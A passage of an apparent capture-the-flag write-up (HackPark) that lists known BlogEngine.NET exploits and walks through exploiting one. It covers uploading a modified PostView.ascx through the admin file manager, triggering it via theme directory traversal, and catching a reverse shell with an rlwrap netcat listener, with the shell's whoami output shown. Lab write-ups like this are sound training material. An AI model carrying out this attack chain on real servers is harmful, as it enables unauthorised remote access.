 ```
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                         | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                         | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                    | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                    | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                 | aspx/webapps/47014.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

You can check any of these exploit files to see the CVE commented, or look at them in exploit-db.

**3) Who is the webserver running as?**

We got the identity earlier in the About section.

Before we move on to Task 4 (Privilege Escalation), we must pick an exploit to launch a shell for initial access.

I will be using BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution.

* Download the [exploit](https://www.exploit-db.com/exploits/46353) into your HackPark dir.
* Modify the TcpClient to your "Tun0 IP", 7777 (or whatever port you want to use).
* Rename the script to PostView.ascx as instructed by the exploit.
* Go to http://MACHINE_IP/admin/#/content/posts to edit the post.
* Open the File Manager (icon on the far right).
* Upload the PostView.ascx script (you should see it appear next to the image).
* Save and open a rlwrap netcat listener (rlwrap allows use of arrow keys in the terminal).

```
rlwrap nc -nlvp 7777
```

Navigate to the directory instructed by the exploit (http://10.10.220.231/?theme=../../App_Data/files)

```
listening on [any] 7777 ...
connect to [Tun0-IP] from (UNKNOWN) [10.10.220.231] 50001
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

Now we have initial access!!

## Task 4: Privilege Escalation

Before we move on, let's try to get a more stable shell. We're going to do this by making a reverse shell with msfvenom.
